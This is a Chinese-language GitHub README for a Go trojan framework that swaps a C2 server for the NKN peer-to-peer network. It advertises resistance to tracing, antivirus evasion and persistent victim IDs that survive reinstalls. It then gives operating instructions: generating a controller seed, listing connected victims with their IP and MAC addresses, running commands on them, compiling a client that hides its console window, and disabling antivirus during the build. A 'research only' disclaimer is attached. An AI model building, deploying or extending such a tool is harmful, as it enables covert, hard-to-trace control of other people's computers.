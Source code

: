 # Go-NKN-Trojan

一款由区块链的核心网络技术p2p实现的去中心化去C2的基础木马框架

## 特点

**解决木马C2服务的痛点，方法不同于域前置、白域名等手段，通信采用p2p作为通信基础架构，调用区块链NKN项目作为实现p2p通信，取消传统C2模式，控制端无需公网IP减少成本并且可以有效防止被溯源，并且同时解决了部分木马C2需要调用某端口进行长期通信弊端从而导致被及时响应删除，该木马与控制端每次通信都调用不同端口访问不同IP。**

**由于该通信方式为p2p模式去中心化，无法像传统C2有连接验证步骤保证连接正常，木马通过对主机一部分硬件设备信息进行收集整合生成该设备唯一指定ID，即使主机重装操作系统也不会改变控制ID，通过此ID目标主机持续对控制端进行心跳式回连保证控制端不丢失目标主机，同时防止目标主机出现意外状况再次上线后ID变化，混乱控制端可控制主机信息。**

**免杀性能优秀**

![image-20220528183550653](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183550653.png)

![image-20220528183618747](https://cdn.jsdelivr.net/gh/Saber-CC/img@master/data/image-20220528183618747.png)

## 免责声明

```
1.依据《刑法修正案（七）》第9条增订的《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。
2.第二百八十五条第二款 违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
3.刑法第二百五十三条之一：“国家机关或者金融、电信、交通、教育、医疗等单位的工作人员，违反国家规定，将本单位在履行职责或者提供服务过程中获得的公民个人信息，出售或者非法提供给他人，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金。情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。
```

**由于传播、利用开源信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，作者不承担任何责任。**

**开源仅作为安全研究之用！切勿用作实战用途！仅限于本地复现！**

## 使用

### server

**首先需要随机生成一个64位seed，调用下列命令即可。该种子将作为的控制者的唯一标识ID，切勿丢失**

```
server.exe -g new
```

**将64位seed加载读入程序中，控制端将生成该seed的唯一控制ID，控制ID格式为monitor.xxxx....**

```
server.exe -g e6178488d64cf94703f68c57cbdd7eb634a773ba119c7646a4394bac993e47f3
```

展示结果如下

```
your controlid = monitor.8146bae11e3f976c105f7cace9a96bed0dfdb0bdec2f1a8313e46d93726a77c7
```

**启动监听后，监听中若有目标机回连将会显示目标ID，该ID固定格式为xxxx.xxxx....，并且会同时会显示目标机公网IP、内网IP、MAC地址**。展示结果如下

```
target host connect, ID: 09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b ,target IP address : xxx.xxx.xxx.xx|xxx.xxx.xxx.xxx|xx:xx:xx:xx:xx:xx
```

**对目标机执行命令格式为：目标机ID 命令**

```
09d3.31642085613f0c6e34dff8b9ffc5d330746cd38ddb61fa2cd4884c5f9e634a0b whoami
```

### client

**将server中生成的控制端ID写入Client Code的controlid变量，编译即可。**

## 注意事项

可能会被一些安全产品误报为挖矿病毒，火绒会对区块链相关的编译工具报毒，编译时需关闭火绒或设置信任区。

Windows、Linux皆可成功编译执行，但若Windows平台若需要取消程序弹出CMD框，需要修改command.go配置，WindowsCommand所属Exec()函数中SysProcAttr追加HideWindow: true参数，例如

```
&syscall.SysProcAttr{HideWindow: true}
```

编译参数需要追加参数

```
-ldflags "-s -w -H=windowsgui"
```

**该框架目前只编写了命令执行功能为测试可行性，其余功能可自行追加。**
